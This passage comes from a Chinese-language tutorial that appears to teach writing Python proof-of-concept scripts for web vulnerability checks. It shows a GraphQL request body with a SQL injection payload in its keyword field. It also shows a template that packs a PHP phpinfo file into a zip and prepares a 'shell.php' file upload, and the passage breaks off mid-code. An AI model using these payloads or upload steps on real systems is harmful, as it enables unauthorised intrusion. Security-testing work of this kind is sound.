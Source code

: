 ```bash
{"query":"query queryAlarms($keyword: String, $scope: Scope, $duration:Duration!, $paging: Pagination!) {\\n    getAlarm(keyword: $keyword, scope: $scope, duration: $duration, paging: $paging) {\\n      items: msgs {\\n        key: id\\n        message\\n        startTime\\n        scope\\n      }\\n      total\\n    }}","variables":{"duration":{"start":"2020-10-15 1327","end":"2020-10-15 1342","step":"MINUTE"},"paging":{"pageNum":1,"pageSize":20,"needTotal":true},"keyword":"union select database()#\'"}}
# 你也看到了，里面单双引号都挺多，转义也挺多，好像还挺麻烦的，这是可以用data = ''' '''
data = '''{"query":"query queryAlarms($keyword: String, $scope: Scope, $duration:Duration!, $paging: Pagination!) {\\n    getAlarm(keyword: $keyword, scope: $scope, duration: $duration, paging: $paging) {\\n      items: msgs {\\n        key: id\\n        message\\n        startTime\\n        scope\\n      }\\n      total\\n    }}","variables":{"duration":{"start":"2020-10-15 1327","end":"2020-10-15 1342","step":"MINUTE"},"paging":{"pageNum":1,"pageSize":20,"needTotal":true},"keyword":"union select database()#\'"}}'''
```

* 小知识：

> Python 中三引号可以将复杂的字符串进行赋值。 Python 三引号允许一个字符串跨多行，字符串中可以包含换行符、制表符以及其他特殊字符。

#### 来一个示例看看

```python
# -*- coding: utf-8 -*-
​
import requests, random, hashlib, json, time, re, base64, zipfile, os, urllib2, socket, telnetlib
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
from bs4 import BeautifulSoup

# FROM:
# FOFA：
# VERSION:
#
​
def up_zip():
    myzip = zipfile.ZipFile('{}.zip'.format(yuju), mode='a', 
                            compression=zipfile.ZIP_DEFLATED)
    myzip.writestr("Yxuan.php", "<?php echo md5({});phpinfo();?>".format(yuju))
    myzip.close()
    zip_data = open('{}.zip'.format(yuju))
    return zip_data
    
def verify(target):
    # 检测SQL注入以及XSS，文件写入等，可使用随机数
    yuju = str(random.randint(0, 999999))
    mdfive = hashlib.md5(yuju).hexdigest()
    path = ""
    url = target + path
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50",
        # "Cookie":'cookie',
        # "": "",
        # "": "",
        # "": "",
        "Content-Type": "application/x-www-form-urlencoded",
        }
    data = ""
    # zip_data = open('{}.zip'.format(yuju))
    data = up_zip()
    # 文件上传时使用，或传递特殊形式参数使用
    file = {
        'name': ('filename', u'文件内容', u'文件自定义Content-Type'),
        'file[]': ('shell.php', data, 'application/octet-stream'),
        'zipfile': ('{}.zip'.format(yuju), zip_data),
```